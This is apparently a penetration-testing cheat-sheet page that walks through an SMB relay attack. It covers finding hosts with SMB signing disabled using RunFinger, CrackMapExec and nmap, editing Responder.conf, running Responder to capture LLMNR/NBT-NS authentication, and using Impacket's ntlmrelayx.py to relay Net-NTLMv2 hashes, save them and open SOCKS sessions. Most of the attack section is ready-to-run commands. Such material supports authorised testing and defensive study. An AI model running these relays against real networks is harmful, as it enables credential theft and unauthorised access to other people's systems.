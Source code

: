 # SMB Relaying

After observing LLMNR and/or NBT-NS traffic with Responder and forcing the client to authenticate to your machine, it is possible for the attacker to relay the Net-NTLMv2 hash obtained to all systems within scope that have SMB Signing Disabled.&#x20;

### Identifying Systems with SMB Signing Disabled

#### RunFinger.py

Finger is included with Responder.py in the `/tools` directory. Simply run the tool against either a subnet or file and parse the results using `cut`

```bash
python3 RunFinger.py -i $subnet
```

#### CrackMapExec

A list can also easily be created with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
crackmapexec smb $subnet --gen-relay-list 
```

#### Nmap

Nmap can also create a list of hosts that have SMB Signing Disabled:

```bash
nmap --script=smb-security-mode -p445 $ip
```

### SMB Relaying 101

After confirming LLMNR/NBT-NS traffic and identifying systems with SMB Signing Disabled, we are ready to perform the attack. First, we need modify the `Responder.conf` file and disable both SMB and HTTP:

```python
# responder.conf

SQL = On
SMB = Off    
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

We can then run Responder:

```bash
responder -I eth0 -dwP
```

We can then run `ntlmrelayx.py` from Impacket, supplying our file of hosts previously identified to have SMB Signing Disabled.

```bash
# Example generic relaying
python3 ntlmrelayx.py -tf smbdisabled.out --smb2support

# Save hashes from relaying locally
python3 ntlmrelayx.py -tf smbdisabled.out --smb2support -of
```

#### Relaying with SOCKS

We can also enable SOCKS support while relaying for interactive sessions. Using this flag will also provide you with a session on the host if the user is not a local administrator:

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2support --socks
```

### References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack" %}

{% embed url="https://en.hackndo.com/ntlm-relay" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2" %}

{% embed url="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}
